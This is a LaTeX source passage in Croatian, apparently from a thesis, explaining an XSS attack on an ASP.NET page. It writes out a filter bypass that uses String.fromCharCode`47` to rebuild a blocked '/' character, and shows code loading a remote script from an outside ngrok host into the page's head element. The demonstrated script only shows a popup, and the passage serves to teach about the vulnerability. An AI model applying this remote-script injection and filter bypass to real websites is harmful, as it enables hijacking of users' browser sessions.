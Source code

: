 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{Još jedno svojstvo string template-a je da ono miče potrebu za korištenjem zagrada prilikom pozivanja funkcija, što se vidi na sljedećoj slici \ref{fig:asp_stf}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.7\textwidth]{asp_stf.jpg}
		\caption{Primjer pozivanja funkcije bez korištenja zagrada} \label{fig:asp_stf}
	\end{center}
\end{figure}

Pošto je izvršavanje proizvoljnih JavaScript komandi unutar URL-a složeno, napadač može napraviti XSS napada u URL-u kojim se učitava proizvoljna skripta u kojoj se mogu koristiti bilo koji znakovi, čime se olakšava iskorištavanje ove ranjivosti. Skripta koju ovaj XSS napad učitava se nalazi na adresi \texttt{http://0a502018ca98.ngrok.io/ASP}. Ova skripta sadrži jednostavan kod prikazan na slici .

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.5\textwidth]{asp_scpt.jpg}
		\caption{Skripta koju učitava XSS napad} \label{fig:asp_scpt}
	\end{center}
\end{figure}

Navedena skripta ispisuje na skočnom prozoru \texttt{ASP. NET XSS napad}. Nakon što je kreirana skripta, potrebno je postaviti njezin \texttt{src} atribut na vrijednost \texttt{//0a502018ca98.ngrok.io/ASP}, što se postiže kodom \texttt{js.src='//0a502018ca98.ngrok.io/ASP'}. Međutim, kako je znak \texttt{/} zabranjen, umjesto njega koristimo izraz \texttt{\${String.fromCharCode`47`}} unutar string template-a, koji generira znak \texttt{/}. Kreiranu skriptu stavljamo unutar \texttt{head} elementa, što se vidi na slici \ref{fig:asp_head}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{asp_head.jpg}
		\caption{Dodavanje skripte u head element} \label{fig:asp_head}
	\end{center}
\end{figure}

}
\end{document}
